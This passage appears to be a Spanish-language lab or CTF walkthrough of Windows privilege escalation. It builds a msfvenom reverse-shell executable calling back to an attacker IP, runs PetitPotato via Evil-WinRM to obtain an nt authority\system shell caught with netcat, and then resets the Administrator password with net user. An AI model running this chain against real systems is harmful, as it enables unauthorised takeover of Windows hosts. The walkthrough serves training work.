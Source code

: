 Vamos a intentar crear una shell reversa al ejecutar **PetitPotato**. Para ello, primero creamos un ejecutable con msfvenom para que nos de una shell reversa.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.200.100 LPORT=8889 -f exe -o shell.exe
```

La copiamos en la máquina victima:

```bash
*Evil-WinRM* PS C:\Users\hacker\Documents> copy \\192.168.200.100\kali\shell.exe .
*Evil-WinRM* PS C:\Users\hacker\Documents> dir

    Directorio: C:\Users\hacker\Documents

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         7/2/2024  10:25 PM          73802 shell.exe
```

Nos ponemos a la escucha en nuestra máquina atacante y ejecutamos **PetitPotato**:

```bash
*Evil-WinRM* PS C:\Users\hacker\Documents> \\192.168.200.100\kali\PetitPotato.exe 2 .\shell.exe

[+] Malicious named pipe running on \\.\pipe\petit\pipe\srvsvc.
[+] Invoking EfsRpcDecryptFileSrv with target path: \\localhost/pipe/petit\C$\wh0nqs.txt.

[+] The connection is successful.
[+] ImpersonateNamedPipeClient OK.
[+] OpenThreadToken OK.
[+] DuplicateTokenEx OK.
[+] CreateProcessAsUser OK.
```

Obtenemos la shell como **nt authority\system**

```bash
nc -nlvp 8889
listening on [any] 8889 ...
connect to [192.168.200.100] from (UNKNOWN) [192.168.200.4] 62914
Microsoft Windows [Versi?n 10.0.14393]
(c) 2016 Microsoft Corporation. Todos los derechos reservados.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```

Ahora para obtener el acceso como **Administrador** lo que he hecho es cambiar la contraseña del usuario **Administrador** con `net user`:

```bash
C:\Windows\system32>net user administrador Murrusko0
net user administrador Murrusko0
Se ha completado el comando correctamente.
```
